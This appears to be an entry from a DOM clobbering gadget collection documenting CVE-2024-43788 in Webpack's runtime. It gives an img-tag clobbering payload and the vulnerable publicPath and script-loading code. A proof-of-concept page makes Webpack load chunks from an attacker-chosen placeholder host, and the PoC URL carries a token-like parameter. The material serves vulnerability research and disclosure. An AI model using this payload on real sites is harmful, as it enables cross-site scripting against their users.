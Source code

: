 ## Webpack

### Meta

+ Library: Webpack
+ Stars: 64.4K
+ Version: v5.93.0
+ Fingerprint: `typeof __webpack_require__ !== 'undefined' && __webpack_require__.hasOwnProperty('p')`
+ Payload: ```<img name="currentScript" src="https://xxx.xxxx.xxx"></img>```
+ Impact: XSS
+ Status: Patched
+ CVE: CVE-2024-43788
+ Foundby: TheHulk

### Library

URL: Self hosted

### Vulnerable Code Snippet

`webpack/runtime/publicPath`
```javascript
var scriptUrl;
if (__webpack_require__.g.importScripts) scriptUrl = __webpack_require__.g.location + "";
var document = __webpack_require__.g.document;
if (!scriptUrl && document) {
	if (document.currentScript)
		scriptUrl = document.currentScript.src;
	if (!scriptUrl) {
		var scripts = document.getElementsByTagName("script");
		if(scripts.length) {
			var i = scripts.length - 1;
			while (i > -1 && (!scriptUrl || !/^http(s?):/.test(scriptUrl))) scriptUrl = scripts[i--].src;
		}
	}
}
// When supporting browsers where an automatic publicPath is not supported you must specify an output.publicPath manually via configuration
// or pass an empty string ("") and set the __webpack_public_path__ variable from your code to use your own logic.
if (!scriptUrl) throw new Error("Automatic publicPath is not supported in this browser");
scriptUrl = scriptUrl.replace(/#.*$/, "").replace(/\?.*$/, "").replace(/\/[^\/]+$/, "/");
__webpack_require__.p = scriptUrl;
```

`webpack/runtime/jsonp chunk loading`
```javascript
function loadUpdateChunk(chunkId, updatedModulesList) {
	currentUpdatedModulesList = updatedModulesList;
	return new Promise((resolve, reject) => {
		waitingUpdateResolves[chunkId] = resolve;
		// start update chunk loading
		var url = __webpack_require__.p + __webpack_require__.hu(chunkId);
		// create error before stack unwound to get useful stacktrace later
		var error = new Error();
		var loadingEnded = (event) => {
			if(waitingUpdateResolves[chunkId]) {
				waitingUpdateResolves[chunkId] = undefined
				var errorType = event && (event.type === 'load' ? 'missing' : event.type);
				var realSrc = event && event.target && event.target.src;
				error.message = 'Loading hot update chunk ' + chunkId + ' failed.\n(' + errorType + ': ' + realSrc + ')';
				error.name = 'ChunkLoadError';
				error.type = errorType;
				error.request = realSrc;
				reject(error);
			}
		};
		__webpack_require__.l(url, loadingEnded);
	});
}
```

`webpack/runtime/load script`
```javascript
__webpack_require__.l = (url, done, key, chunkId) => {
	if(inProgress[url]) { inProgress[url].push(done); return; }
	var script, needAttach;
	if(key !== undefined) {
		var scripts = document.getElementsByTagName("script");
		for(var i = 0; i < scripts.length; i++) {
			var s = scripts[i];
			if(s.getAttribute("src") == url || s.getAttribute("data-webpack") == dataWebpackPrefix + key) { script = s; break; }
		}
	}
	if(!script) {
		needAttach = true;
		script = document.createElement('script');

		script.charset = 'utf-8';
		script.timeout = 120;
		if (__webpack_require__.nc) {
			script.setAttribute("nonce", __webpack_require__.nc);
		}
		script.setAttribute("data-webpack", dataWebpackPrefix + key);

		script.src = url;
	}
	inProgress[url] = [done];
	var onScriptComplete = (prev, event) => {
		// avoid mem leaks in IE.
		script.onerror = script.onload = null;
		clearTimeout(timeout);
		var doneFns = inProgress[url];
		delete inProgress[url];
		script.parentNode && script.parentNode.removeChild(script);
		doneFns && doneFns.forEach((fn) => (fn(event)));
		if(prev) return prev(event);
	}
	var timeout = setTimeout(onScriptComplete.bind(null, undefined, { type: 'timeout', target: script }), 120000);
	script.onerror = onScriptComplete.bind(null, script.onerror);
	script.onload = onScriptComplete.bind(null, script.onload);
	needAttach && document.head.appendChild(script);
};
```

## PoC

```
<html>
<head>
    <title>Webpack Gadgets</title>
</head>
<body>
<img name="currentScript" src="https://xxx.xxxx.xxx"></img>


<script src="https://raw.githubusercontent.com/jackfromeast/dom-clobbering-collection/main/domc-gadgets-assets/webpack/dist/webpack-gadgets.bundle.js?token=GHSAT0AAAAAACHOWGIH7SZYJ4GGACO6R4ZOZVDEPLQ"></script>
</body>
</html>
```

The `webpack.config.js` to generate the bundle can be found below. Note that, to avoid `__webpack_require__.p` being set as a fixed value, the config shouldn't set the `output.publicPath` field to a fix string.

```
module.exports = {
  entry: './entry.js', // Ensure the correct path to your entry file
  output: {
    filename: 'webpack-gadgets.bundle.js', // Output bundle file
    path: path.resolve(__dirname, 'dist'), // Output directory
    // publicPath: '/dist/', // this line will make __webpack_require__.p = "/dist/";
  },
  target: 'web',
  mode: 'development',
};
```

Webpack's generated code differes significantly for each use. Ensure that the code snippets appear, then browse the network requests to see the URLs that are requested. Some users may configure their public path differently. Fingerprint may not work if Webpack is configured to not produce source maps.

